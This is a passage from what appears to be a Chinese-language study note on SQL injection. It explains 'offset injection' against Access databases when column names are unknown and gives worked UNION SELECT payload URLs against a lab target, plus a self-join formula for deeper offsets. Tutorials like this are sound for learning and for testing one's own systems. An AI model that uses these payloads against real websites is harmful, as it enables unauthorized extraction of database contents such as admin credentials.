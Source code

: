 
access数据库的`偏移注入`：

**偏移注入就是解决表明已知，列名未知的情况！**

例如下面的靶场：

~~~sql
原理：
1、用*号去替换一个字段，从最后一个字段数向前逐个删除来替代，直到显示正常为止，*代表了所有该admin表*的字段

例如：
原语句：http://192.168.10.128/Production/PRODUCT_DETAIL.asp?id=1513 +UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
替换后的语句：http://192.168.10.128/Production/PRODUCT_DETAIL.asp?id=1513 +UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,* from admin

逐渐减少字段，直到正确
当减少到16的时候显示正常：
语句：http://192.168.10.128/Production/PRODUCT_DETAIL.asp?id=1513 +UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin

~~~

![image-20250112165943893](.\SQL注入原理.assets\image-20250112165943893-17366723846661.png)

![image-20250112170007881](.\SQL注入原理.assets\image-20250112170007881.png)

~~~sql
那么*号就代表6个
得出字段后采用下面的计算公式，进一步注入
公式：联合查询所需要补充的字段数=当前字段数量-目标表的字段数*N（几级偏移）
一级：
22-16=6

二级：
10+6*2=22
需要在select语句中补充10个字段。
语句:union select 1,2,3,4,5,6,7,8,9,10,* from (admin as a inner join admin as b on a.id = b.id)

三级：
4+6*3=22
~~~